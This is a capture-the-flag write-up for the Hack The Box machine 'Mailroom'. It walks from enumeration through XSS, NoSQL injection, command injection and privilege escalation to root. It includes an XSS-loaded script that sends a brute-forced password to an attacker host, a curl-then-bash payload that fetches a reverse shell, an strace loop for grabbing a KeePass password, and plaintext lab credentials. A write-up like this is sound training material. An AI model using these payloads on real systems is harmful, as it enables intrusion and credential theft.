

# [Mailroom](https://app.hackthebox.com/machines/mailroom)

```bash
nmap -p- --min-rate 10000 10.10.11.209 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.209
```


While I open web applicaiton, I see some stuff here.


Let's do `Directory Enumeration` here.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -x php,txt -u http://10.10.11.209/
```


From comment section, I see that it is actually `mailroom.htb`, let's add this into `/etc/hosts` file for resolving purposes.


Now, I do `Subdomain Enumeration`.
```bash
wfuzz -u http://10.10.11.209 -H "Host: FUZZ.mailroom.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7746
```


I found `git.mailroom.htb`, let's add this also into `/etc/hosts` file.


While I exploring this `Gitea`, found  `staffroom` repository, and there is `auth.php` file contains `subdomain` which is forbidden to me.


That's forbidden, may be we need to acccess here, from machine itself `localhost`.


While enumeration of web application, I find `XSS` on `contact.php`.


XSS payload triggered.


From `Source Code` review of application, I see that there is `NoSQL Injection` possible, that's why I will do `NoSQL Injection` attack via `XSS` as because I trigged XSS before and I can submit malicious `.js` file into here by adding `src` attribute.


`NoSQL Injection` is possible here.


Which means I can submit such a `NoSQL Injection` payload here.
```bash
email[$ne]=dr4ks@mailroom.htb&password[$ne]=dr4ks
```


Now, it's time to write malicious script which triggered by `XSS` vulnerability.
```javascript
var password = "";
var characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#%:;<>@_=';

for (var i = 0; i < characters.length; i++) {

    var req = new XMLHttpRequest();
    req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    req.send("email=tristan@mailroom.htb&password[$regex]=" + password + characters[i] + ".*");

    if (req.responseText.length == 130) {
        password += characters[i];
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("GET", "http://10.10.14.18:8080/?pass=" + password, true);
        exfil_req.send();
        i = 0;
    }
}

var done_req = new XMLHttpRequest();
done_req.open("GET", "http://10.10.14.18:8080/?done=" + password, true);
done_req.send();
```


First, I need to open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


Now, I submit below payload to `contact.php` then trigger this `XSS` vulnerability.
```bash
<script src="http://10.10.14.18:8080/dr4ks.js"></script>
```


From output of `HTTP.SERVER` logs, I can see password of `tristan@mailroom.htb` user.


Let's check this via `ssh`.

tristan: 69trisRulez!


While we look at `Source Code`, we saw `staff-review-panel.mailroom.htb` which we add into `/etc/hosts` file but can't see.

Now, as we have connection, we create `tunnel` via `Dynamic Port Forwarding` by using `ssh` command.
```bash
ssh -D 1080 tristan@mailroom.htb
```


Now, I can see web application.


I enter credentials of `tristan@mailroom.htb` as email and password for this, there's `2FA` token is implemented.




For checking my emails, I look at `/var/mail/tristan` file to see messages.


I go to this link and browse and successfully authenticated to web application as below.


While looking at this web application, I find `Blind Command Injection` by using `sleep` command for injecting into below input.


Let's create `.sh` reverse shell file on attacker machine and run this script via `staff-review-panel.mailroom.htb` application.

First, I create such below malicious `.sh` script on my machine.


Then, open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


Finally, I submit below payload into this input.
```bash
curl http://10.10.14.18:8080/dr4ks.sh -o /tmp/dr4ks.sh ; bash /tmp/dr4ks.sh
```


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


While looking at files and directories on this machine, I found `config` file on `/var/www/staffrom/.git` directory which has sensitive information about `matthew` user.


matthew: HueLover83#


Let's switch to this user via `su` command.
```bash
su - matthew
```

user.txt


While I run `ps auxww`, I see that `perl` programming language runs `kpcli` (KeyPass).


Let's `debug processes` via `strace` command to capture some passwords from here.


Below cmdlet, debug processes of `perl`.
```bash
while pidof perl >/dev/null; do sleep 1; done; while ! pid=$(pidof perl); do sleep 1; done && strace -p $pid -o out1; strace -p $pid -o out2
```


Let's read this files called `out1` and `out2`. So , we can say that `out1` file is empty for us.


Let's look at `out2` file to find juicy info.

I see that `process` opens a file `personal.kdbx`.


I guess that if this file is opened, there should be password, let's search this.


There's string that says `Please provide the master password`, after this all `write()` method values are our password of `.kdbx` file.

Password: !sEcUr3p4$$w0rd9


Let's open `personal.kdbx` file via this password.


I found `root` password from `.kdbx` file.

root: a$gBa3!GA8


root.txt


